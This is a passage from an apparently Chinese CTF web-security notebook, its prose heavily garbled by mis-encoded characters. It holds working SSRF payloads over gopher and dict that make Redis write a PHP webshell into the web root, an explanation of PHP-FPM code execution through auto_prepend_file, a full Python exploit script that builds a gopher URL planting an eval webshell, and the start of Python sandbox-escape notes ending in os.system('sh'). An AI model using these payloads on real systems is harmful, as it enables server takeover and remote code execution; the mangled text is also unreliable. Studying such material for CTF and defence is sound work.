243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

payload需è¦å†è¿›è¡Œä¸€æ¬¡urlç¼–ç 


#### dict



>```
>str="<?php system($_GET[\"a\"])?>";
>len=str.length;
>arr=[];
>for(var i=0;i<len;i++){
>	arr.push(str.charCodeAt(i).toString(16));
>}
>console.log("\\x"+arr.join("\\x"));
>```

```c
更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html

å°†rdb文件ådbfilename改为webshellçš„åå­—
url=dict://127.0.0.1:6379/config:set:dbfilename:webshell.php

写入webshell，有些时候å¯èƒ½\x需è¦æ¢æˆ \\x进行转义
url=dict://127.0.0.1:6379/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x73\x79\x73\x74\x65\x6d\x28\x24\x5f\x47\x45\x54\x5b\x22\x63\x6d\x64\x22\x5d\x29\x3f\x3e"

进行备份
dict://127.0.0.1:6379/save更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html
```


### SSRF打FastCGI

>`auto_prepend_file`是告诉PHP，在执行目标文件之å‰ï¼Œå…ˆåŒ…å«`auto_prepend_file`中指定的文件；`auto_append_file`是告诉PHP，在执行完æˆç›®æ ‡æ–‡ä»¶å，包å«`auto_append_file`指å‘的文件。

<u>*CTFhub --- web-ssrf-FastCGI*</u>

[NCTF2019\]phar matches everything（自动化脚本è·å–flag）_buuctf phar_Ho1aAsçš„åšå®¢-CSDNåšå®¢](https://blog.csdn.net/Xxy605/article/details/120161001)

[fastCGI](https://www.cnblogs.com/tssc/p/10255590.html)

[Fastcgiå议分æ && PHP-FPM未æˆæƒè®¿é—®æ¼æ´ && Exp编写_mysteryflowerçš„åšå®¢-CSDNåšå®¢](https://blog.csdn.net/mysteryflower/article/details/94386461)

[ fastcgiå议分æä¸å®ä¾‹_Shreck66çš„åšå®¢-CSDNåšå®¢](https://blog.csdn.net/shreck66/article/details/50355729)

[利用SSRF攻击内网FastCGIåè®® - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/263342.html)



https://blog.csdn.net/mysteryflower/article/details/94386461

Fastcgiå…¶å®æ˜¯ä¸€ä¸ªé€šä¿¡å议，和HTTPå议一样，都是进行数æ®äº¤æ¢çš„一个通é“。

类比HTTPåè®®æ¥è¯´ï¼Œfastcgiå议则是æœåŠ¡å™¨ä¸­é—´ä»¶å’ŒæŸä¸ªè¯­è¨€å端进行数æ®äº¤æ¢çš„å议。Fastcgiå议由多个record组æˆï¼Œrecord也有headerå’Œbody一说，æœåŠ¡å™¨ä¸­é—´ä»¶å°†è¿™äºŒè€…按照fastcgi的规则å°è£…好å‘é€ç»™è¯­è¨€å端，语言å端解ç ä»¥å拿到具体数æ®ï¼Œè¿›è¡ŒæŒ‡å®šæ“作，并将结æœå†æŒ‰ç…§è¯¥åè®®å°è£…好åè¿”å›ç»™æœåŠ¡å™¨ä¸­é—´ä»¶ã€‚

#### 消æ¯å¤´(请求头)

å’ŒHTTP头ä¸åŒï¼Œrecord的头固定8个字节，body是由头中的contentLength指定，其结æ„如下：

```c
typedef struct {
    /* Header */
    unsigned char version; // 版本
    unsigned char type; // 本次recordçš„ç±»å‹
    unsigned char requestIdB1; // 本次record对应的请求id
    unsigned char requestIdB0;
    unsigned char contentLengthB1; // body体的大å°
    unsigned char contentLengthB0;
    unsigned char paddingLength; // é¢å¤–å—大å°
    unsigned char reserved; 

    /* Body */
    unsigned char contentData[contentLength];
    unsigned char paddingData[paddingLength];
} FCGI_Record;
```

头由8个ucharç±»å‹çš„å˜é‡ç»„æˆï¼Œæ¯ä¸ªå˜é‡1字节。其中，requestIdå ä¸¤ä¸ªå­—节，一个唯一的标志id，以é¿å…多个请求之间的影å“ï¼›contentLengthå ä¸¤ä¸ªå­—节，表示body的大å°ã€‚

语言端解æ了fastcgi头以å，拿到contentLength，然åå†åœ¨TCPæµé‡Œè¯»å–大å°ç­‰äºcontentLengthçš„æ•°æ®ï¼Œè¿™å°±æ˜¯body体。

Bodyåé¢è¿˜æœ‰ä¸€æ®µé¢å¤–çš„æ•°æ®ï¼ˆPadding），其长度由头中的paddingLength指定，起ä¿ç•™ä½œç”¨ã€‚ä¸éœ€è¦è¯¥Padding的时候，将其长度设置为0å³å¯ã€‚

å¯è§ï¼Œä¸€ä¸ªfastcgi record结æ„最大支æŒçš„body大å°æ˜¯2^16，也就是65536字节。

type就是指定该record的作用。因为fastcgi一个record的大å°æ˜¯æœ‰é™çš„，作用也是å•ä¸€çš„，所以我们需è¦åœ¨ä¸€ä¸ªTCPæµé‡Œä¼ è¾“多个record。通过typeæ¥æ ‡å¿—æ¯ä¸ªrecord的作用，用requestId作为åŒä¸€æ¬¡è¯·æ±‚çš„id。

也就是说，æ¯æ¬¡è¯·æ±‚，会有多个record，他们的requestId是相åŒçš„。

借用[该文章](https://blog.csdn.net/shreck66/article/details/50355729)中的一个表格，列出最主è¦çš„几ç§type：


下图为php-fpmç»™webæœåŠ¡å™¨ä¼ è¾“的一个具体消æ¯çš„消æ¯å¤´(8字节)内容

1. åºåˆ—0(对应version字段)的数值为01，代表php-fpm的版本信æ¯
2. åºåˆ—1(对应type字段)的数值为03，根æ®ä¸Šé¢å¯¹type值å«ä¹‰çš„解释，å¯ä»¥çŸ¥é“这个消æ¯å°†æ ‡å¿—这此次交互的结æŸ
3. åºåˆ—2,3 00,01说æ˜æ­¤æ¬¡äº¤äº’的请求ID为01
4. åºåˆ—4,5 00,08标示这在åºåˆ—7之å的消æ¯ä½“的长度为8
5. åºåˆ—6标示填充字节为0，åŠæœ¬èº«æ¶ˆæ¯ä½“以是8的字节了
6. åºåˆ—7将消æ¯çš„ä¿ç•™å­—节设为0

#### 消æ¯ä½“(请求体)

##### type为1

读者对照上é¢ä»‹ç»çš„type值的å«ä¹‰å¯çŸ¥ï¼Œæ­¤ç±»æ¶ˆæ¯ä¸ºäº¤äº’刚开始所å‘的第一个消æ¯ï¼Œå…¶æ¶ˆæ¯ä½“结æ„c定义如下

```c
typedef struct 
{
    unsigned char roleB1;       //webæœåŠ¡å™¨æ‰€æœŸæœ›php-fpm扮演的角色，具体å–值下é¢æœ‰
    unsigned char roleB0;
    unsigned char flags;        //确定php-fpm处ç†å®Œä¸€æ¬¡è¯·æ±‚之å是å¦å…³é—­
    unsigned char reserved[5];  //ä¿ç•™å­—段
}FCGI_BeginRequestBody;
```

æ ¹æ®ä¸Šè¿°å¯çŸ¥type值为1的消æ¯(标识开始请求)的消æ¯çš„消æ¯ä½“为固定大å°8字节，其中å„个字段的具体å«ä¹‰å¦‚下

- role:此字段å 2个字节，用æ¥è¯´æ˜æˆ‘们对php-fpmå‘起请求时，我们想让php-fpm为我们扮演什么角色(åšä»€ä¹ˆï¼Œæˆ–ç†è§£ä¸ºæ‚么åš)，其常è§çš„3个å–值如下:
- flags:字段确定是å¦ä¸php-fpm建立长è¿æ¥ï¼Œä¸º1é•¿è¿æ¥ï¼Œä¸º0则在æ¯æ¬¡è¯·æ±‚处ç†ç»“æŸä¹‹å关闭è¿æ¥
- reserved:ä¿ç•™å­—段

##### type为3

type值为3表示结æŸæ¶ˆæ¯ï¼Œå…¶æ¶ˆæ¯ä½“çš„c定义如下

```c
typedef struct 
{
    unsigned char appStatusB3;      //结æŸçŠ¶æ€ï¼Œ0为正常
    unsigned char appStatusB2;
    unsigned char appStatusB1;
    unsigned char appStatusB0;
    unsigned char protocolStatus;   //å议状æ€
    unsigned char reserved[3];
}FCGI_EndRequestBody;
```

åŒæ ·æˆ‘们å¯ä»¥çœ‹å‡ºç»“æŸæ¶ˆæ¯ä½“也为固定8字节大å°ï¼Œå…¶å„字段的具体å«ä¹‰å¦‚下：

- appStatus:此字段共4个字节，用æ¥è¡¨ç¤ºç»“æŸçŠ¶æ€ï¼Œ0为正常结æŸ
- protocolStatus:为å议所处的状æ€ï¼Œ0为正常状æ€
- reserved:为ä¿ç•™å­—节

##### type为4

此值表示此消æ¯ä½“为传递PARAMS(ç¯å¢ƒå‚æ•°)，ç¯å¢ƒå‚æ•°å…¶å®å°±æ˜¯name-value对，我们å¯ä»¥ä½¿ç”¨è‡ªå·±å®šä¹‰çš„name-valueä¼ ç»™php-fpm或者传递php-fpm已有的name-value对，以下为我们åé¢å®ä¾‹å°†ä¼šä½¿ç”¨åˆ°çš„php-fpm以有的name-value对如下


消æ¯ä½“çš„æ ¼å¼å¦‚下

```c
typedef struct {
     unsigned char nameLengthB3; /* nameLengthB0 >> 7 == 0 */
     unsigned char nameLengthB2;
     unsigned char nameLengthB1;
     unsigned char nameLengthB0;
     unsigned char valueLengthB3; /* nameLengthB0 >> 7 == 0 */
     unsigned char valueLengthB2;
     unsigned char valueLengthB1;
     unsigned char valueLengthB0;
     unsigned char nameData[(B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
     unsigned char valueData[valueLength
     ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValue;
```

以看出消æ¯ä½“å‰8个字节为固定的，其字段具体å«ä¹‰ä¸º

- nameLength:此字段å ç”¨4字节，用æ¥è¯´æ˜name的长度
- valueLength:此字段为4个字节，用æ¥è¯´æ˜value的长度

å‰8个字节之å紧跟的为nameLength长度的name值，æ¥ç€æ˜¯valueLength长度的value值

```c
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair11;
 
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair14;
 
typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair41;
 
typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair44;
```

这其å®æ˜¯4个结æ„，至äºç”¨å“ªä¸ªç»“æ„，有如下规则：

1. keyã€valueå‡å°äº128字节，用FCGI_NameValuePair11
2. key大äº128字节，valueå°äº128字节，用FCGI_NameValuePair41
3. keyå°äº128字节，value大äº128字节，用FCGI_NameValuePair14
4. keyã€valueå‡å¤§äº128字节，用FCGI_NameValuePair44

##### type值为5,6,7

当消æ¯ä¸ºè¾“入，输出，错误时，它的消æ¯å¤´ä¹‹å便直æ¥è·Ÿå…·ä½“æ•°æ®

#### 完整消æ¯record


#### PHP-FPM（FastCGI进程管ç†å™¨ï¼‰

FPMå…¶å®æ˜¯ä¸€ä¸ªfastcgiå议解æ器，Nginxç­‰æœåŠ¡å™¨ä¸­é—´ä»¶å°†ç”¨æˆ·è¯·æ±‚按照fastcgi的规则打包好通过TCPä¼ ç»™è°ï¼Ÿå…¶å®å°±æ˜¯ä¼ ç»™FPM。

FPM按照fastcgiçš„å议将TCPæµè§£ææˆçœŸæ­£çš„æ•°æ®ã€‚

举个例å­ï¼Œç”¨æˆ·è®¿é—®http://127.0.0.1/index.php?a=1&b=2，如æœweb目录是/var/www/html，那么Nginx会将这个请求å˜æˆå¦‚下key-value对：

```c
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

这个数组其å®å°±æ˜¯PHP中$\_SERVER数组的一部分，也就是PHP里的ç¯å¢ƒå˜é‡ã€‚但ç¯å¢ƒå˜é‡çš„作用ä¸ä»…是填充$\_SERVER数组，也是告诉fpm：“我è¦æ‰§è¡Œå“ªä¸ªPHP文件â€ã€‚

PHP-FPM拿到fastcgiçš„æ•°æ®åŒ…å，进行解æ，得到上述这些ç¯å¢ƒå˜é‡ã€‚然å，执行SCRIPT_FILENAME的值指å‘çš„PHP文件，也就是/var/www/html/index.php。

#### ä»»æ„代ç æ‰§è¡Œ

那么，为什么我们æ§åˆ¶fastcgiå议通信的内容，就能执行任æ„PHP代ç å‘¢ï¼Ÿ

ç†è®ºä¸Šå½“然是ä¸å¯ä»¥çš„，å³ä½¿æˆ‘们能æ§åˆ¶`SCRIPT_FILENAME`，让fpm执行任æ„文件，也åªæ˜¯æ‰§è¡Œç›®æ ‡æœåŠ¡å™¨ä¸Šçš„文件，并ä¸èƒ½æ‰§è¡Œæˆ‘们需è¦å…¶æ‰§è¡Œçš„文件。

但PHP是一门强大的语言，PHP.INI中有两个有趣的é…置项，`auto_prepend_file`å’Œ`auto_append_file`。

`auto_prepend_file`是告诉PHP，在执行目标文件之å‰ï¼Œå…ˆåŒ…å«`auto_prepend_file`中指定的文件；`auto_append_file`是告诉PHP，在执行完æˆç›®æ ‡æ–‡ä»¶å，包å«`auto_append_file`指å‘的文件。

那么就有趣了，å‡è®¾æˆ‘们设置`auto_prepend_file`为`php://input`，那么就等äºåœ¨æ‰§è¡Œä»»ä½•php文件å‰éƒ½è¦åŒ…å«ä¸€éPOST的内容。所以，我们åªéœ€è¦æŠŠå¾…执行的代ç æ”¾åœ¨Body中，他们就能被执行了。（当然，还需è¦å¼€å¯è¿œç¨‹æ–‡ä»¶åŒ…å«é€‰é¡¹`allow_url_include`）

那么，我们æ€ä¹ˆè®¾ç½®`auto_prepend_file`的值？

è¿™åˆæ¶‰åŠåˆ°PHP-FPM的两个ç¯å¢ƒå˜é‡ï¼Œ`PHP_VALUE`å’Œ`PHP_ADMIN_VALUE`。这两个ç¯å¢ƒå˜é‡å°±æ˜¯ç”¨æ¥è®¾ç½®PHPé…置项的，`PHP_VALUE`å¯ä»¥è®¾ç½®æ¨¡å¼ä¸º`PHP_INI_USER`å’Œ`PHP_INI_ALL`的选项，`PHP_ADMIN_VALUE`å¯ä»¥è®¾ç½®æ‰€æœ‰é€‰é¡¹ã€‚（`disable_functions`除外，这个选项是PHP加载的时候就确定了，在范围内的函数直æ¥ä¸ä¼šè¢«åŠ è½½åˆ°PHP上下文中）

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

设置`auto_prepend_file = php://input`且`allow_url_include = On`，然å将我们需è¦æ‰§è¡Œçš„代ç æ”¾åœ¨Body中，å³å¯æ‰§è¡Œä»»æ„代ç ã€‚

#### EXP

```python
import socket
import random
import argparse
import sys
from io import BytesIO
from urllib.parse import quote

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)

def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')

def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
    __FCGI_VERSION = 1

    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3

    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11

    __FCGI_HEADER_SIZE = 8

    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3

    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
        if keepalive:
            self.keepalive = 1
        else:
            self.keepalive = 0
        self.sock = None
        self.requests = dict()

    def __connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(self.timeout)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        # if self.keepalive:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
        # else:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
        try:
            self.sock.connect((self.host, int(self.port)))
        except socket.error as msg:
            self.sock.close()
            self.sock = None
            print(repr(msg))
            return False
        return True

    def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
        length = len(content)
        buf = bchr(FastCGIClient.__FCGI_VERSION) \
               + bchr(fcgi_type) \
               + bchr((requestid >> 8) & 0xFF) \
               + bchr(requestid & 0xFF) \
               + bchr((length >> 8) & 0xFF) \
               + bchr(length & 0xFF) \
               + bchr(0) \
               + bchr(0) \
               + content
        return buf

    def __encodeNameValueParams(self, name, value):
        nLen = len(name)
        vLen = len(value)
        record = b''
        if nLen < 128:
            record += bchr(nLen)
        else:
            record += bchr((nLen >> 24) | 0x80) \
                      + bchr((nLen >> 16) & 0xFF) \
                      + bchr((nLen >> 8) & 0xFF) \
                      + bchr(nLen & 0xFF)
        if vLen < 128:
            record += bchr(vLen)
        else:
            record += bchr((vLen >> 24) | 0x80) \
                      + bchr((vLen >> 16) & 0xFF) \
                      + bchr((vLen >> 8) & 0xFF) \
                      + bchr(vLen & 0xFF)
        return record + name + value

    def __decodeFastCGIHeader(self, stream):
        header = dict()
        header['version'] = bord(stream[0])
        header['type'] = bord(stream[1])
        header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
        header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
        header['paddingLength'] = bord(stream[6])
        header['reserved'] = bord(stream[7])
        return header

    def __decodeFastCGIRecord(self, buffer):
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))

        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''
            
            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record

    def request(self, nameValuePairs={}, post=''):
        # if not self.__connect():
        #     print('connect failure! please check your fasctcgi-server !!')
        #     return

        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)

        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        print(f"gopher://{self.host}:{self.port}/_"+quote(quote(request)))
        # self.sock.send(request)
        # self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        # self.requests[requestId]['response'] = b''
        # return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    # parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    # parser.add_argument('host', help='Target host, such as 127.0.0.1')
    # parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    # parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    # parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    # args = parser.parse_args()

    client = FastCGIClient("127.0.0.1", 9000, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = "/var/www/html/index.php"
    content = '''<?php file_put_contents("/var/www/html/shell.php","<?php eval(\$_POST[1]);?>");?> '''
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    # print(force_text(response))
```

## redisæ¼æ´å¤ç°

[SSRF---gopherå’Œdict打redis_gopherå议打redis_Z3eyOndçš„åšå®¢-CSDNåšå®¢](https://blog.csdn.net/unexpectedthing/article/details/121667613)


## CSRF


## Python沙箱逃逸

[一文看懂Python沙箱逃逸 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/203208.html)

python沙箱逃逸（pyjail），是CTF中一类题的通称：在这些题目中，我们能够交互å¼åœ°ç”¨`eval`或者`exec`执行python代ç ã€‚然而，执行的代ç å’Œä¸Šä¸‹æ–‡å‡å—到一定é™åˆ¶ï¼Œå¦‚题目用正则表达å¼æ‹’ç»éƒ¨åˆ†å­—符的输入ã€ä»¥åŠä»¤`__builtins__=None`等。在正å¼å¼€å§‹ä»‹ç»pyjail题目的解法之å‰ï¼Œè®©æˆ‘们先å¤ä¹ ä¸€ä¸‹python的一些特性：

- 在python中，类å‡ç»§æ‰¿è‡ª`object`基类；
- python中类本身具有一些é™æ€æ–¹æ³•ï¼Œå¦‚`bytes.fromhex`ã€`int.from_bytes`等。对äºè¿™äº›ç±»çš„å®ä¾‹ï¼Œä¹Ÿèƒ½è°ƒç”¨è¿™äº›é™æ€æ–¹æ³•ã€‚如`b'1'.fromhex('1234')`，返å›`b'\x124'`。（一个特殊的例å­æ˜¯æ•´æ•°å¸¸é‡ä¸æ”¯æŒè¿™æ ·æ“作，如输入`3.from_bytes`会报错）
- python中的类还具有一系列的魔术方法，这个特性å¯ä»¥å¯¹æ¯”php的魔术方法，以åŠC++çš„è¿ç®—符é‡è½½ç­‰ã€‚一些函数的å®ç°ä¹Ÿæ˜¯ç›´æ¥è°ƒç”¨é­”术方法的。常用的魔术方法有这些，更多å¯å‚考[这里](https://www.bing.com/search?q=python魔术方法&form=ANNTH1&refig=a9a53b48d6164751abc23a6515e40220)
- 相对应地，python的类中也包å«ç€ä¸€äº›é­”术å±æ€§ï¼š
  - `__dict__`：å¯ä»¥æŸ¥çœ‹å†…部所有å±æ€§åå’Œå±æ€§å€¼ç»„æˆçš„字典。
  - `__doc__`：类的帮助文档。默认类å‡æœ‰å¸®åŠ©æ–‡æ¡£ã€‚对äºè‡ªå®šä¹‰çš„类，需è¦æˆ‘们自己å®ç°ã€‚
- 以åŠè¿˜æœ‰ä¸€äº›é‡è¦çš„内置函数和å˜é‡ï¼š
  - `dir`：查看对象的所有å±æ€§å’Œæ–¹æ³•ã€‚在我们没有æ€è·¯çš„时候，å¯ä»¥é€šè¿‡è¯¥å‡½æ•°æŸ¥çœ‹æ‰€æœ‰å¯ä»¥åˆ©ç”¨çš„方法；此外，在题目ç¦ç”¨å¼•å·ä»¥åŠå°æ•°ç‚¹æ—¶ï¼Œä¹Ÿå¯ä»¥å…ˆç”¨æ‹¿åˆ°ç±»æ‰€æœ‰å¯ç”¨æ–¹æ³•ï¼Œå†ç´¢å¼•åˆ°æ–¹æ³•å，并且通过`getattr`æ¥æ‹¿åˆ°ç›®æ ‡æ–¹æ³•ã€‚
  - `getattr()`：用äºè·å–对象的å±æ€§æˆ–方法。`getattr(object, name[, default])`
  - `chr`ã€`ord`：字符ä¸ASCIIç è½¬æ¢å‡½æ•°ï¼Œèƒ½å¸®æˆ‘们绕过一些WAF
  - `globals`：返å›æ‰€æœ‰å…¨å±€å˜é‡çš„函数；
  - `locals`：返å›æ‰€æœ‰å±€éƒ¨å˜é‡çš„函数；
  - `__import__`：载入模å—的函数。例如`import os`等价äº`os = __import__('os')`ï¼›
  - `__name__`：该å˜é‡æŒ‡ç¤ºå½“å‰è¿è¡Œç¯å¢ƒä½äºå“ªä¸ªæ¨¡å—中。如我们python一般写的`if __name__ == '__main__':`，就是æ¥åˆ¤æ–­æ˜¯å¦æ˜¯ç›´æ¥è¿è¡Œè¯¥è„šæœ¬ã€‚如æœæ˜¯ä»å¦å¤–的地方import的该脚本的è¯ï¼Œé‚£`__name__`å°±ä¸ä¸º`__main__`，就ä¸ä¼šæ‰§è¡Œä¹‹å的代ç ã€‚
  - `__builtins__`：包å«å½“å‰è¿è¡Œç¯å¢ƒä¸­é»˜è®¤çš„所有函数ä¸ç±»ã€‚如上é¢æ‰€ä»‹ç»çš„所有默认函数，如`str`ã€`chr`ã€`ord`ã€`dict`ã€`dir`等。在pyjail的沙箱中，往往`__builtins__`被置为`None`，因此我们ä¸èƒ½åˆ©ç”¨ä¸Šè¿°çš„函数。所以一ç§æ€è·¯å°±æ˜¯æˆ‘们å¯ä»¥å…ˆé€šè¿‡ç±»çš„基类和å­ç±»æ‹¿åˆ°`__builtins__`，å†`__import__('os').system('sh')`进行RCEï¼›
  - `__file__`：该å˜é‡æŒ‡ç¤ºå½“å‰è¿è¡Œä»£ç æ‰€åœ¨è·¯å¾„。如`open(__file__).read()`就是读å–当å‰è¿è¡Œçš„python文件代ç ã€‚需è¦æ³¨æ„的是，**该å˜é‡ä»…在è¿è¡Œä»£ç æ–‡ä»¶æ—¶ä¼šäº§ç”Ÿï¼Œåœ¨è¿è¡Œäº¤äº’å¼ç»ˆç«¯æ—¶ä¸ä¼šæœ‰æ­¤å˜é‡**ï¼›
  - `_`：该å˜é‡è¿”å›ä¸Šä¸€æ¬¡è¿è¡Œçš„python语å¥ç»“æœã€‚需è¦æ³¨æ„的是，**该å˜é‡ä»…在è¿è¡Œäº¤äº’å¼ç»ˆç«¯æ—¶ä¼šäº§ç”Ÿï¼Œåœ¨è¿è¡Œä»£ç æ–‡ä»¶æ—¶ä¸ä¼šæœ‰æ­¤å˜é‡**。

### èŠ±å¼ import

